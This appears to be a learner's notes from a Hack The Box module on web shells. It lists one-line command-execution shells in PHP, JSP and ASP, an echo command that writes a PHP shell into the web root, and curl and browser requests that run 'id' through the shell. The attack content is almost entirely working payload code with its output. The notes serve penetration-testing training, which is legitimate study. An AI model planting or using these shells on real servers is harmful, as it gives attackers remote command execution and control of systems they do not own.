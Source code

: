 ```php
<?php system($_REQUEST["cmd"]); ?>
```


```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

## Web Root Location
![[Pasted image 20250320072023.png]]

Example:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

http://SERVER_IP:PORT/shell.php?cmd=id

![[write_shell_exec_1.webp]]

Other way:
```shell-session
shakir0x00@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```